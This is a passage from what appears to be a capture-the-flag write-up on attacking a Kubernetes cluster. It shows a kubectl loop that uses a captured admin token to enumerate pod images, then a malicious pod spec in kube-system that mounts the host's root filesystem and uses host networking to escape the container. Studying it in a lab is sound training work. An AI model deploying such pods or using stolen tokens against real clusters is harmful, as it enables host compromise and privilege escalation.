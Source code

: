 ```

kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
  | grep -v NAMESPACE
  | while read line; do 
      ns=$(echo $line | awk '{print $1}'); 
      name=$(echo $line | awk '{print $2}'); 
      kubectl get pod $name -o yaml -n $ns --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
        | grep '  - image: '; 
    done 
  | sort -u

```

It pulls the list of pods, gets rid of the header, and then loops over each line. For each, it gets the namespace (`$ns`) and the pod name (`$name`), and then calls the API to get the full YAML. It uses `grep` to get the image location, and then all the results are passed into `sort -u` to get unique entries.

#### Malicious Pod

I’ll create a YAML to describe my pod:

```

apiVersion: v1 
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: evil0xdf
    image: localhost:5000/dev-alpine
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true

```

I choose alpine because it’s smaller, but I later tested and node\_server works too.

I’ve added the host filesystem `/` as a mount point inside the container.

Pods (like Docker containers) run until their main command is done. I’ll just add a long sleep as the main command (`tail -f /dev/null` is another good one to hold priority).
